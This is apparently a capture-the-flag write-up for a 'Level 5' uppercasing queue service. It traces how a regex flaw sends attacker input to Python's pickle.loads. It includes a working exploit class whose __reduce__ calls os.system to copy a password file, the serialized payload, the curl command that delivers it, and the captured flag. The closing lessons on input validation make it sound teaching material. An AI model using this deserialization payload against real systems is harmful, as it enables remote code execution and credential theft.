 ## Level 5: validate input strictly enough

This is a quite realistic challenge:
the code is not trivial,
not badly written,
and it doesn't have too obvious mistakes.

What can we see easily?
The description tells us the program is an uppercasing service,
and we can use it like this:
```
$ curl localhost:8005 -d 'hello friend'
{
    "processing_time": 1.621246337890625e-05, 
    "queue_time": 0.2028050422668457, 
    "result": "HELLO FRIEND"
}
```

The description also mentions that the service is structured as a queue server and worker.
Sure enough,
in the `main` method we can see two modes of invocation,
using `worker` or `server` as the command line argument.

We could play with random invalid inputs,
but that won't really give anything interesting.
This time we really have to dig into the code.
Let's start by tracking down how the input is processed.

As we are sending the input using HTTP,
let's find the HTTP service implementation:
the `QueueHttpServer` class has two methods for handling GET and POST requests.
The `do_GET` method simply prints a help message and doesn't handle any inputs.
The `do_POST` method takes the POST data and passes it to a new `QueueServer` instance:
```
    def do_POST(self):
        length = int(self.headers.getheader('content-length'))
        post_data = self.rfile.read(length)
        raw_data = urllib.unquote(post_data)

        queue = QueueServer()
        job = Job()
        type, data, job = queue.run_job(data=raw_data, job=job)
        # ...
```
It passes the input to `QueueUtils.enqueue`:
```
class QueueServer(object):
    # Called in server
    def run_job(self, data, job):
        QueueUtils.enqueue('JOB', data, job)
        # ...
```
... which in turn passes it to `QueueUtils.serialize`:
```
    @staticmethod
    def enqueue(type, data, job):
        # ...
        serialized = QueueUtils.serialize(type, data, job)
        # ...
```
... where we can finally see something interesting:
```
    @staticmethod
    def serialize(direction, data, job):
        serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
        # ...
```
Remember that the `POST` data we send from `curl` is now in the `data` variable.
We can trace back that `type` can be either "JOB" or "RESULT",
`data` is whatever we send with `curl`,
and `job` is a `Job` object,
serialized to a string using the `pickle.dumps` call.
The result will look like this:
```
type: JOB; data: OUR_DATA; job: JOB_OBJ_AS_PICKLE
```

Is this safe?
What will happen if we send `x; job: hello` as the input?
```
type: JOB; data: x; job: hello; job: JOB_OBJ_AS_PICKLE
```
We don't know yet how this serialized string will be used later,
but having two `job:` segments there might be an interesting corner case.
Let's see what actually happens if we call the service with such input:
```
$ curl localhost:8005 -d 'x; job: hello'
{
    "result": "Job timed out"
}
```
That doesn't look too good.
Let's track down what happens to the serialized string.
Notice the `deserialize` method in `QueueUtils`:
```
    @staticmethod
    def deserialize(serialized):
        parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
        match = parser.match(serialized)
        direction = match.group(1)
        data = match.group(2)
        job = pickle.loads(match.group(3))
```
Look at the regular expression used when setting `parser`.
Since data is matched with the non-greedy pattern `.*?`,
using an input like `; job: EVIL_CODE`,
we can trick the program into matching `EVIL_CODE` as the content of `job`,
and run `pickle.loads` on it.

How can we exploit `pickle.loads`?
For that,
we need to dig into the documentation of pickle:
http://docs.python.org/library/pickle.html,
and in particular, the `__reduce__()` method:

> When the Pickler encounters an object of a type it knows nothing about,
it looks in two places for a hint of how to pickle it.
One alternative is for the object to implement a `__reduce__()` method.
If provided,
at pickling time `__reduce__()` will be called with no arguments,
and it must return either a string or a tuple.
>
> (...)
>
> When a tuple is returned,
it must be between two and five elements long.
(...)
The contents of this tuple are pickled as normal and used to reconstruct the object at unpickling time.
>
> The semantics of each element are:
>
> A callable object that will be called to create the initial version of the object.
The next element of the tuple will provide arguments for this callable,
and later elements provide additional state information that will subsequently be used to fully reconstruct the pickled data.

Based on this info,
we can create a class,
and implement the `__reduce__` method to have the following properties:

- Return a tuple.
- The first item in the tuple should be a callable.
- The second item should be a tuple of arguments for the callable.

But what should be the callable and its arguments?
Perhaps the Python equivalent of shellcode?
For example,
`os.system` as the callable,
and a shell command as its argument:
```
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('cat /home/level05/.password > /tmp/p',))

print '; job: ' + pickle.dumps(Exploit())
```

Let's save this in a file,
say `exploit.py`,
run it, and save its output in a text file:
```
$ python exploit.py | tee pickle.txt
; job: cposix
system
p0
(S'cat /home/level05/.password > /tmp/p'
p1
tp2
Rp3
.
```
Let's send this to the service:
```
$ curl localhost:8005 --data-urlencode @pickle.txt
{
    "result": "Job timed out"
}
$ cat /tmp/p
diebasuw
```

Bingo! The injected code was unpickled and executed,
copying the content of the password file to a place where we can see it.

## Lessons to learn

- Read the docs well:
  the documentation of pickle warns not to unpickle untrusted text,
  loud and clear.

- Make sure your input validation is strict enough.

